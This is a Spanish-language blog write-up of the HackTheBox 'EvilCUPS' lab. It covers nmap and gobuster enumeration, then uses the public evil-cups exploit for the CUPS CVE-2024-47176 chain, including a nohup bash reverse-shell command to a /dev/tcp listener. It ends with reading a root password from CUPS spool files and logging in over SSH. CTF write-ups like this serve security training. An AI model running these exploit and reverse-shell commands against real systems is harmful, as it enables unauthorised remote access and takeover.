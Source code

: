 ```yaml
---
layout: single
title: write up EvilCUPS
excerpt:
date: 2024-11-07
classes: wide
header:
  teaser: /assets/images/EvilCUPS/0_uZO541QLUUyiyuW1-1681376233.png
  teaser_home_page: true
categories:
  - hacking
  - linux
  - 
tags:  
  - hacking
  - linux
---
```


![](/assets/images/EvilCUPS/0_uZO541QLUUyiyuW1-1681376233.png)
xd
"EvilCUPS" es una máquina de HackTheBox basada en vulnerabilidades del servicio CUPS que permiten ejecución remota de comandos. Siguiendo un tutorial reciente, logramos acceso inicial al sistema y, al revisar archivos de configuración de CUPS, encontramos una contraseña reutilizada para root, lo que nos dio control total del sistema.

lo primero que vamos a hacer es ejecutar los escaneos de nmap:
```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 10.10.11.40 -oG allports
```
![](/assets/images/EvilCUPS/Pastedimage20241107151258.png)

```bash
nmap -sCV -p22,631 10.10.11.40 -oN ports
```
![](/assets/images/EvilCUPS/Pastedimage20241107151642.png)
vemos que nos da la version de cups que es la 2.4 una version antigua del 2022.
tambien podemos ver que hay http por lo que alomejor hay una web.
vamos a usar whatweb para averiguarlo:
```bash
whatweb 10.10.11.40:631
```
![](/assets/images/EvilCUPS/Pastedimage20241107152132.png)
como podemos ver hay algo por lo que vamos a ponerlo en el navegador
![](/assets/images/EvilCUPS/Pasted image 20241107152436.png)
nada mas entrar vemos otra vez la version del servicio y multiples enlaces a los cuales podemos acceder.
antes de ponerme a tocar voy a preferir ejecutar un gobuster para ver si encuentro algo mas
```bash
 gobuster dir -u http://10.10.11.40:631/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30 -x php,html,php.bak,bak,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.40:631/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php.bak,bak,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2262]
/help                 (Status: 200) [Size: 3137]
/jobs                 (Status: 200) [Size: 2329]
/jobs.txt             (Status: 200) [Size: 2329]
/jobs.html            (Status: 200) [Size: 2329]
/jobs.php.bak         (Status: 200) [Size: 2329]
/jobs.php             (Status: 200) [Size: 2329]
/jobs.bak             (Status: 200) [Size: 2329]
/de                   (Status: 200) [Size: 2316]
/fr                   (Status: 200) [Size: 2340]
/admin                (Status: 403) [Size: 370]
/admin.html           (Status: 403) [Size: 370]
/admin.php            (Status: 403) [Size: 370]
/admin.bak            (Status: 403) [Size: 370]
/admin.txt            (Status: 403) [Size: 370]
/admin.php.bak        (Status: 403) [Size: 370]
/es                   (Status: 200) [Size: 2478]
/ru                   (Status: 200) [Size: 2739]
/ja                   (Status: 200) [Size: 2263]
/printers.php.bak     (Status: 200) [Size: 2388]
/printers.bak         (Status: 200) [Size: 2388]
/printers             (Status: 200) [Size: 2388]
/printers.html        (Status: 200) [Size: 2388]
/printers.php         (Status: 200) [Size: 2388]
/printers.txt         (Status: 200) [Size: 2388]
/classes.php.bak      (Status: 200) [Size: 2003]
/classes              (Status: 200) [Size: 2003]
/classes.bak          (Status: 200) [Size: 2003]
/classes.php          (Status: 200) [Size: 2003]
/classes.txt          (Status: 200) [Size: 2003]
/classes.html         (Status: 200) [Size: 2003]
/robots.txt           (Status: 200) [Size: 95]
/administration       (Status: 403) [Size: 370]
/administration.txt   (Status: 403) [Size: 370]
/administration.html  (Status: 403) [Size: 370]
/administration.php   (Status: 403) [Size: 370]
/administration.php.bak (Status: 403) [Size: 370]
/administration.bak   (Status: 403) [Size: 370]
/da                   (Status: 200) [Size: 2311]
/'                    (Status: 403) [Size: 370]
/'.php                (Status: 403) [Size: 370]
/'.php.bak            (Status: 403) [Size: 370]
/'.html               (Status: 403) [Size: 370]
/'.bak                (Status: 403) [Size: 370]
/'.txt                (Status: 403) [Size: 370]
/jobsearch.php        (Status: 200) [Size: 2329]
/jobsearch            (Status: 200) [Size: 2329]
/jobsearch.html       (Status: 200) [Size: 2329]
/jobsearch.bak        (Status: 200) [Size: 2329]
/jobsearch.php.bak    (Status: 200) [Size: 2329]
/jobsearch.txt        (Status: 200) [Size: 2329]
/jobseeker            (Status: 200) [Size: 2329]
/jobseeker.bak        (Status: 200) [Size: 2329]
/jobseeker.txt        (Status: 200) [Size: 2329]
/jobseeker.php        (Status: 200) [Size: 2329]
/jobseeker.php.bak    (Status: 200) [Size: 2329]
/jobseeker.html       (Status: 200) [Size: 2329]
Progress: 32619 / 7642998 (0.43%)
```
no parece aver nada interesante por lo que vamos a tocar la pagina
si nos vamos a http://10.10.11.40:631/printers/
veremos lo siguiente:
![](/assets/images/EvilCUPS/Pastedimage20241107153439.png)
si clicamos sobre Canon_MB2300_series veremos que nos da cierta infromacion de la impresora
![](/assets/images/EvilCUPS/Pasted image 20241107153634.png)
tambien si vemos Show completed jobs saldran las tareas completadas (en vuestro caso solo os saldra una no como a mi que me puse a tocar antes de escribir xdd)
![](/assets/images/EvilCUPS/Pastedimage20241107153804.png)
como podemos ver hay dos usuarios Withheld y anonymous ( este ultimo es que usado yo y que no os aparecera)
lo interesante esque tenemos poder sobre el usuario anonymous pero por ejemplo si intentamos haceder a http://10.10.11.40:631/admin nos suelta un 403 forbiden
![](/assets/images/EvilCUPS/Pastedimage20241107154158.png)
por lo aqui entran los siguientes CVE:
[CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176)
[CVE-2024-47076](https://nvd.nist.gov/vuln/detail/CVE-2024-47076)
[CVE-2024-47175](https://nvd.nist.gov/vuln/detail/CVE-2024-47175)
[CVE-2024-47177](https://nvd.nist.gov/vuln/detail/CVE-2024-47177)
basicamente lo que hay que comprobar el puerto 631 por UDP, si esta abierto podemos ejecuatr remote code execution (RCE)
por lo que podemos usar nmap para ver si es correcto:
```bash
nmap -sU -p631 10.10.11.40
```
![](/assets/images/EvilCUPS/Pastedimage20241107154858.png)
como podemos ver esta abierto por lo que genial (para nostros como atacantes claro)
vamos a darnos el lujazo de que vamos a usar el siguiente exploit para poder vulnerar el servicio 
https://github.com/IppSec/evil-cups.git
para isntalarlo es asi:
```bash
❯ git clone https://github.com/IppSec/evil-cups.git
<SNIP>

❯ cd evil-cups

❯ python3 -m venv evilcups_env

❯ source evilcups_env/bin/activate

❯ pip3 install -r requirements.txt

❯ python3 evilcups.py -h
evilcups.py <LOCAL_HOST> <TARGET_HOST> <COMMAND>
```
vale una vez echo abrimos otra terminal y nos ponemos en escucha por un puerto, en mi caso voy a elejir el 443 (no afecta en nado solo es por gusto)
```bash
nc -nvlp 443
```
ahora el exploit tiene un pero por ejemplo, nos enviamos una reverse shell ésta compartirá el mismo PID del proceso que está corriendo la impresora
para comprenderlo mejor voy a citar una explicacion de otro write up que lo explica fabulosamente y os dejo el enlace tambien al writeup oficial
https://gunzf0x.github.io/pentesting/es/posts/evilcups/
cito:
"por ejemplo, nos enviamos una reverse shell ésta compartirá el mismo `PID` del proceso que está corriendo la impresora. De manera que, si por A, B, C motivo la mala impresora (agregada) se muere o es removida, nuestra reverse shell también morirá ya que es un proceso “child” (hijo) de ésta. Puede haber un proceso corriendo por detrás el cual elimina las impresoras no deseadas. Por tanto, nuestra reverse shell podría morir. Para sobrepasar este problema podemos crear un nuevo `PID` el cual se haga cargo del proceso de la reverse shell utilizando el comando `nohup` junto con el de la reverse shell. Por tanto, si realizamos esta secuencia de ataque para `CUPS`, se recomienda hacerlo utilizando `nohup` para crear un proceso independiente.

Como último aviso, en la vida real puede que no haya un proceso removiendo constantemente las impresoras no deseadas. De ser ese el caso (el cual es más realista), y por alguna razón nuestra reverse shell muere, tendremos que cambiar nuestra dirección IP dado que al realizar la inyección ésta no aceptará un nuevo archivo `PPD`. Supongo que por eso la gente de HTB fue considerada y agregó el proceso de borrar impresoras. De otro modo necesitaríamos cambiar la IP cada vez que la reverse shell muere o, incluso, si es que simplemente ejecutamos un `ping` para saber si el exploit funcionaba."

vale una vez dicho esto vamos a ejecuat el exploit de la siguiente forma:
```bash
python3 evilcups.py 10.10.16.74 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.16.74/443 0>&1" &'
```
y esperamos unos 30 segundos
pasados esos 30 segundos si vamos a http://10.10.11.40:631/printers/ veremos la impresora maliciosa
![](/assets/images/EvilCUPS/Pastedimage20241107160105.png)
si la selecionamos y imprimimos una pagina de ejmplo 
pum estamos dentro
![](/assets/images/EvilCUPS/Pastedimage20241107160207.png)
![](/assets/images/EvilCUPS/Pastedimage20241107160221.png)
ahora para el escalado de privilegios 
## escalado de privilegios
hay un directorio cups donde en general se almacena todo. problema no tenemos haceso pero si podemos ejecutar comando:
![](/assets/images/EvilCUPS/Pastedimage20241107160946.png)
por lo que si investigamos un poco descubrimos que suelen tener una nomeglatura generica los archivos gracias a la documentacion oficial de cups
por lo que si supuestamente hacemos un:
```bash
cat /var/spool/cups/d00001-001
```
deveria ver una/unas contraseña/s
![](/assets/images/EvilCUPS/Pastedimage20241107161244.png)
y exacto hay la tenemos.
si nos la copiamos y con netexect para ver si es de root:
```bash
nxc ssh 10.10.11.40 -u 'root' -p 'Br3@k-G!@ss-r00t-evilcups'
```
![](/assets/images/EvilCUPS/Pastedimage20241107161436.png)
y vemos que si por lo que ya solo es entrar por ssh y somos root
![](/assets/images/EvilCUPS/Pastedimage20241107161548.png)
